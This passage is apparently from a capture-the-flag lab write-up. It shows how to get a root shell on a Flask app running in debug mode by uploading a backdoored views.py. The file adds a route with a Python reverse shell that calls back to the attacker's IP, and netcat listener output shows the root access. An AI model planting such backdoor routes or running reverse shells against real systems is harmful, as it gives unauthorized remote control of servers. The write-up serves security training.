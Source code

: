     oxdf@hacky$ nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.164 46930
    /app # id
    uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
    

### Shell by Replacing views.py

#### Generate Backdoored Version

Because the application is running in debug mode, it will reload any time any
of the source files change. I’ll use this along with the upload ability to
overwrite `views.py`.

I’ve got a copy of the `views.py` file that runs on OpenSource. At the bottom,
I’ll add another route:

    
    
    @app.route('/0xdf')
    def rev():
        import socket
        import os
        import pty
        
        s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
        s.connect(("10.10.14.6",443))
        os.dup2(s.fileno(),0)
        os.dup2(s.fileno(),1)
        os.dup2(s.fileno(),2)
        pty.spawn("sh")
    

On visiting `/0xdf`, it will generate a reverse shell to me.

#### Upload

I’ll set Burp to intercept, and upload this file. I’ll verify the new route is
there, and modify the `filename` to abuse the same trick I used earlier to
read:

[![image-20220930081422279](https://0xdfimages.gitlab.io/img/image-20220930081422279.png)_Click
for full size
image_](https://0xdfimages.gitlab.io/img/image-20220930081422279.png)

#### Shell

I’ll listen with `nc -lvnp 443` and visit `http://10.10.11.164/0xdf`. A shell
connects back:

    
    
    oxdf@hacky$ nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.164 33120
    /app # id
    uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
    